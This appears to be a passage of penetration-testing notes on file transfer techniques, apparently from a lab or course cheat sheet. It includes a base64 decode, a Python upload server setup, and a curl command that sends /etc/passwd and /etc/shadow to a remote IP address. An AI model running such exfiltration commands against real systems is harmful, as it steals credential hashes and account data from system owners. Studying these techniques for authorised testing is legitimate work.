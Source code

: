 <figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

### Linux Decode Base64

{% code overflow="wrap" %}
```
echo Base64string | base64 -d > hosts
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

## Web Uploads with cURL

{% code overflow="wrap" %}
```
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

## PowerShell Web Uploads

### **Installing a Configured WebServer with Upload**

{% code overflow="wrap" %}
```
pip3 install uploadserver
```
{% endcode %}

```
python3 -m uploadserver
```

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>
